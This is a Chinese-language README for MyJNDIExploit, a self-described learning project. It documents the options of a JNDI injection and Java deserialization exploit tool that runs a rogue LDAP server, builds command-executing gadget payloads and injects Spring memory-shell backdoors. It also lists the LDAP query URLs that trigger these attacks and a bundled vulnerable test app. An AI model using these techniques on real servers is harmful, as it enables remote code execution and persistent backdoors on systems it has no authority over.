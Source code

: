 # MyJNDIExploit

# 前言

我是第一次开发工具，所以这里的逻辑会很混乱，而且有很多核心代码都是参考其他工具。我写这个工具的主要原因是，练习一下二开，另外也让自己对工具开发有个基本了解，毕竟以前几乎没写过代码。



# 功能简介

-h 打印帮助：

you must choose one param within '-i, -g, -sp'

Usage: java -jar MyJNDIExploit-xxx-xxx.jar [options]
Options:

-p, --httpport    your http port (default: 2345)

-l, --ldapport    your ladp port (default: 1389)

-i, --ip          your listen ip

-g, --gadget      choose gadget name

-c, --cmd         cmd you want to execute (default: calc)

-e, --encode      choose encode pattern | support: bin,base64,base64url,hex (default: bin)

-k, --key         key of memshell like ?cmd= (default: cmd)

-m, --memshell    generate memshell

-sp, --springboot start a vul springboot for test (default: false)

-h, --help        show helps

-u, --usage       show available gadgets (default: false)

-f, classfile     choose .class as byte[] in TemplatesImpl

在ldap服务器功能下：

- -i 指定ldap服务器ip
- -l 指定ldap服务器端口
- -p 指定http服务器端口

在生成序列化数据功能下：

- -g 指定需要使用的gadget
- -f 指定TemplatesImpl中使用的bytes对应的.class文件
- -c 指定需要执行的命令
- -e 指定需要使用的编码方式
- -m 指定需要生成的内存马种类
- -k 指定生成内存马的密码，即url中的参数，如/shell?cmd=calc，这里cmd就是密码

自带漏洞环境功能如下：
- -sp 开启一个springboot环境，/deser?ser=[base64]  用于进行原生反序列化
                        						  /lookup?url=[ldap url]     用于测试JNDI  

目前支持的Gadget和MemShell可以通过-u参数查看：



Supported Gadgets:

​     CommonsBeanutils1

Supported Memshells:

​     SpringEcho

​     SpringInterceptor

Supported LADP Queries：
* all words are case INSENSITIVE when send to ldap server

[+] Basic Queries: ldap://[ip]:[ldapport]/Basic/[PayloadType]/[Params], e.g.

ldap://[ip]:[ldapport]/Basic/Command/[cmd]

ldap://[ip]:[ldapport]/Basic/Command/Base64/[base64_encoded_cmd]

ldap://[ip]:[ldapport]/Basic/SpringEcho/[key]

ldap://[ip]:[ldapport]/Basic/SpringInterceptorShell/[key]




TODO:
- 补充各种gadget（鸽）
- 制作GUI（鸽鸽）
- 制作WebServer（鸽鸽鸽）




















# 参考

[0x727/JNDIExploit: 一款用于JNDI注入利用的工具，大量参考/引用了Rogue JNDI项目的代码，支持直接植入内存shell，并集成了常见的bypass 高版本JDK的方式，适用于与自动化工具配合使用。](https://github.com/0x727/JNDIExploit)

[frohoff/ysoserial: A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.](https://github.com/frohoff/ysoserial)

[新年快乐 | ysoserial 分析与魔改](https://mp.weixin.qq.com/s?__biz=MzkwMzQyMTg5OA==&mid=2247486647&idx=1&sn=2e2ce3bad829dacd4807cbdb88e4ba2f&chksm=c097c612f7e04f0411454885e3d3248607f32ab6722592cc005eb610973220e8156999e75751&scene=178&cur_album_id=3744968375202660352&search_click_id=#rd)